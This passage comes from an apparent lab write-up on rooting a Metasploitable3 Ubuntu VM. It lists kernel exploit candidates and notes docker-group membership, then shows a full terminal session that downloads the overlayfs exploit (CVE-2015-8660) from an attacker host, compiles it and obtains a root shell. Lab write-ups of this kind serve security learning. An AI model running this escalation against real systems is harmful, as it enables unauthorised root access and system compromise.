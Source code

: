 ```
      Source: http://www.exploit-db.com/exploits/45697
  [3] overlayfs
      CVE-2015-8660
      Source: http://www.exploit-db.com/exploits/39230
  [4] pp_key
      CVE-2016-0728
      Source: http://www.exploit-db.com/exploits/39277
  [5] timeoutpwn
      CVE-2014-0038
      Source: http://www.exploit-db.com/exploits/31346

boba_fett@metasploitable3-ub1404:~$ 
```

##### The user boba_fett belongs the docker group and this can be leaveraged to obtain a root shell if the docker setting settings aren't properly configured

```
[!] ctn020 Is the user a member of the 'docker' group?..................... yes!
---
docker
---
```

#### Gaining root using the kernel exploit overlays(CVE-2015-8660)

We can go ahead and download the overlays exploit from [here](http://www.exploit-db.com/exploits/39230), send it over to the victim machine and then compile the script to an executable and run it so as to gain the root shell:

```
boba_fett@metasploitable3-ub1404:~$ wget http://192.168.4.129/overlay.c
wget http://192.168.4.129/overlay.c
--2019-05-03 15:46:08--  http://192.168.4.129/overlay.c
Connecting to 192.168.72.131:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/plain]
Saving to: 'overlay.c'

100%[======================================>] 5,119       --.-K/s   in 0s      

2019-05-03 15:46:09 (93.7 MB/s) - 'overlay.c' saved [5119/5119]

boba_fett@metasploitable3-ub1404:~$ gcc overlay.c -o ofs
gcc overlay.c -o ofs

boba_fett@metasploitable3-ub1404:~$ chmod +x ofs
chmod +x ofs
boba_fett@metasploitable3-ub1404:~$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),100(users),999(docker)
# 
```
